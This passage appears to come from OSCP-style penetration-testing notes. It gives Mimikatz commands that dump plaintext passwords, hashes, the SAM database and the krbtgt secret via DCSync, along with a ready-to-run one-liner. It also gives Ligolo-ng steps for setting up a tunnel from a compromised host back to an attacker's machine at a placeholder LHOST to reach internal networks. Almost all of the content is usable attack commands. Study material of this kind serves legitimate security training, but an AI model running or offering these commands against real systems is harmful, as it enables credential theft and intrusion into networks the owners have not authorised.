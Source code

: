 ## Mimikatz

```powershell
privilege::debug

token::elevate

sekurlsa::logonpasswords #hashes and plaintext passwords
lsadump::sam
lsadump::sam SystemBkup.hiv SamBkup.hiv
lsadump::dcsync /user:krbtgt
lsadump::lsa /patch #both these dump SAM

#OneLiner
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

```

## Ligolo-ng

```powershell
#Creating interface and starting it.
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up

#Kali machine - Attacker machine
./proxy -laddr 0.0.0.0:9001 -selfcert

#windows or linux machine - compromised machine
agent.exe -connect <LHOST>:9001 -ignore-cert

#In Ligolo-ng console
session #select host
ifconfig #Notedown the internal network's subnet
start #after adding relevent subnet to ligolo interface

#Adding subnet to ligolo interface - Kali linux
sudo ip r add <subnet> dev ligolo

```

---

# Recon and Enumeration

- OSINT OR Passive Recon
    
    <aside>
    💡 Not that useful for OSCP as we’ll be dealing with internal machines
    
    </aside>
    